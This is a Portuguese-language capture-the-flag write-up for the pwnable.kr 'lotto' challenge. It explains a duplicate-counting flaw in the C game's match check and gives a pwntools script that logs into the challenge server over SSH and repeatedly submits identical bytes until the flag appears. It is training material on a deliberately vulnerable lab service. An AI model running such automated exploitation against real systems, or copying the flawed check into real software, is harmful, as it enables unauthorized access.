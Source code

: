 # bof
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Operating logic]

## Sobre o Desafio  

Mamãe! Fiz um programa de loteria para meu dever de casa.
você quer jogar?

ssh lotto@pwnable.kr -p2222 (pw:guest)

## 🔗 Links do Desafio

- [Exercício](https://pwnable.kr/play.php#)

## Solução

O desafio proposto fornece as seguintes informações: uma pessoa criou um jogo de loteria e concedeu acesso a um servidor SSH. Dentro desse servidor, há três arquivos: lotto, lotto.c e flag.

![image](https://github.com/user-attachments/assets/afd67885-fbed-4b0d-92bf-46c9e5cc03a9)

O arquivo lotto.c contém o código-fonte do jogo, responsável pela mecânica da loteria.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){

        int i;
        printf("Submit your 6 lotto bytes : ");
        fflush(stdout);

        int r;
        r = read(0, submit, 6);

        printf("Lotto Start!\n");
        //sleep(1);

        // generate lotto numbers
        int fd = open("/dev/urandom", O_RDONLY);
        if(fd==-1){
                printf("error. tell admin\n");
                exit(-1);
        }
        unsigned char lotto[6];
        if(read(fd, lotto, 6) != 6){
                printf("error2. tell admin\n");
                exit(-1);
        }
        for(i=0; i<6; i++){
                lotto[i] = (lotto[i] % 45) + 1;         // 1 ~ 45
        }
        close(fd);

        // calculate lotto score
        int match = 0, j = 0;
        for(i=0; i<6; i++){
                for(j=0; j<6; j++){
                        if(lotto[i] == submit[j]){
                                match++;
                        }
                }
        }

        // win!
        if(match == 6){
                system("/bin/cat flag");
        }
        else{
                printf("bad luck...\n");
        }

}

void help(){
        printf("- nLotto Rule -\n");
        printf("nlotto is consisted with 6 random natural numbers less than 46\n");
        printf("your goal is to match lotto numbers as many as you can\n");
        printf("if you win lottery for *1st place*, you will get reward\n");
        printf("for more details, follow the link below\n");
        printf("http://www.nlotto.co.kr/counsel.do?method=playerGuide#buying_guide01\n\n");
        printf("mathematical chance to win this game is known to be 1/8145060.\n");
}

int main(int argc, char* argv[]){

        // menu
        unsigned int menu;

        while(1){

                printf("- Select Menu -\n");
                printf("1. Play Lotto\n");
                printf("2. Help\n");
                printf("3. Exit\n");

                scanf("%d", &menu);

                switch(menu){
                        case 1:
                                play();
                                break;
                        case 2:
                                help();
                                break;
                        case 3:
                                printf("bye\n");
                                return 0;
                        default:
                                printf("invalid menu\n");
                                break;
                }
        }
        return 0;
}
```

O código acima define a função play(), responsável pelo jogo de loteria.

A entrada dos números da loteria é processada por este trecho:

```c
int i;
printf("Submit your 6 lotto bytes : ");
fflush(stdout);
int r;
r = read(0, submit, 6);
```

Aqui, o usuário insere 6 números, armazenados no array submit. O comando read(0, submit, 6) lê 6 bytes da entrada padrão (stdin).

O código gera números aleatórios usando /dev/urandom:

```c
int fd = open("/dev/urandom", O_RDONLY);
if(fd==-1){
        printf("error. tell admin\n");
        exit(-1);
}
```

Os 6 bytes aleatórios são lidos e armazenados no array lotto:

```c
unsigned char lotto[6];
if(read(fd, lotto, 6) != 6){
        printf("error2. tell admin\n");
        exit(-1);
}
```

Os números são então convertidos para valores entre 1 e 45:

```c
for(i=0; i<6; i++){
        lotto[i] = (lotto[i] % 45) + 1;
}
```

A vulnerabilidade lógica está na verificação dos números correspondentes. O código conta quantas vezes um número do usuário (submit) aparece no array lotto, permitindo contagens repetidas:

```c
int match = 0, j = 0;
for(i=0; i<6; i++){
        for(j=0; j<6; j++){
                if(lotto[i] == submit[j]){
                        match++;
                }
        }
}
```

Caso o usuário acerte 6 números (considerando a falha na contagem), o programa exibe o conteúdo do arquivo flag:

```c
if(match == 6){
        system("/bin/cat flag");
}
else{
        printf("bad luck...\n");
}
```

Se os números não forem todos reconhecidos, a mensagem "bad luck..." é exibida.

Com base nessa falha, é possível aumentar as chances de ganhar. O código a seguir automatiza essa tentativa:

```python
from pwn import *

sh = ssh('lotto', '128.61.240.205', password='guest', port=2222)
p = sh.process('./lotto')

for i in range(1000):
    p.recv()
    p.sendline(b'1')
    p.recv()
    p.sendline(b'------')
    _, ans = p.recvlines(2)
    
    if b"bad" not in ans:
        print(ans.decode())
        break
```

O script Python estabelece uma conexão com o servidor SSH utilizando as credenciais fornecidas e, em seguida, executa o programa lotto. Para explorar a vulnerabilidade identificada, ele repete o processo de jogo mil vezes. A cada iteração, o script envia o número 1 para selecionar a opção de jogar e insere a sequência de caracteres b'------' como entrada, aproveitando a falha na contagem de números repetidos. Após cada tentativa, a resposta do programa é analisada para verificar se a mensagem "bad luck" está presente. Caso essa mensagem não apareça, significa que o exploit funcionou e a flag foi obtida, encerrando o loop imediatamente.

![image](https://github.com/user-attachments/assets/dd178db0-a2e6-4e21-9d64-56ed4e3e150f)

> Assim, obtemos a flag `sorry mom... I FORGOT to check duplicate numbers... :(`
